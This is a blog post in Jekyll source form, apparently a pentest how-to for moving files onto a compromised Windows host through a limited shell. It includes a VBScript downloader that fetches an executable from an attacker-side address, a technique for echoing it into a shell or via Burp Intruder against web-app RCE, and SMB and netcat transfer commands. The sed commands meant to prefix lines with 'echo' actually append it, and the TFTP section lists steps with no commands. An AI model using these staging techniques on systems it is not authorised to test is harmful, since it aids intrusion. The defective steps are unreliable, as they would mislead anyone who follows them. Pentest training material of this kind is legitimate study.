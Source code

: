 ```yaml
---
layout: post
title: "4 Ways to Transfer Files With a Limited Shell"
date: 2017-04-22 08:42:48
description: How I transfer files to a windows host with limited shell
tags: oscp HowTo
categories: OSCP Research
twitter_text: Transfering Files With a Limited Shell
---
```


Commonly during pentests I might be stuck on getting a file over to a system with only a limited shell. To be honest, this problem has mostly occurred to me on Windows so the solutions below will all work on Windows.

# Echo One Line at a Time

The first method is to prefix the “echo” command to the beginning of each line and redirect the output to a file. You would then be able to simply paste the script into the limited shell and your file will be transferred. This method would really only be useful to transfer ASCII only files. However, you would be able to transfer a vbscript of PowerShell file to the victim and then use that to download the actual file.

For example, the following script:

```VB.net
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://10.0.0.100/file.exe", False
xHttp.Send
with bStrm
    .type = 1 '
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\admin\Desktop\file.exe", 2 '
end with
```

Would get “echo” prefixed and “>> down.vbs” appended using the following commands:

```bash
sed -i -e 's/$/echo /' down.vbs
sed -i -e 's/$/ \>\> down.vbs/' down.vbs
```

Make sure there are no empty spaces or you will get “ECHO is on.” added into your output. All that is left is to paste your script into your shell and viola! You have transferred a file.

Another option to transfer a non-ascii file is to encode it, transfer it using the echo method, and decode it on the other side but I prefer loading a downloader.

You can also use this method if you have limited RCE through a web application and use Burp’s intruder to run the commands. If you decide to go down this route, make sure that you throttle intruder so that the “echo” commands do not run out of order.

# TFTP

Another other option is to start up a TFTP server and use windows native TFTP client to connect to your server. Note that only Windows XP had tftp enabled by default. Windows Vista to Windows 10 all need to be enabled.
On the server
Set up the folder:
Start the server:
Move your file:
On the Client
Download the file:

# SMB Mount

The next option would be to set up an SMB share on a server (Could be on your kali box or another windows server in the network that has already been compromised). You can mount the SMB share to the Windows victim using the following command:

```bat
net use Z: \\host\share /PERSISTENT:YES
```

# Netcat

This one is the classic use of the nc command. Obviously, this would only work if you already have nc or ncat installed on the windows host, but hey, maybe you got lucky. 
On the host you are trying to transfer to run:

```bash
nc –l –p 3000 > file_name
```
On the host you are trying to transfer from run:

```bash
nc ipOrHostname 3000 < file_name
```

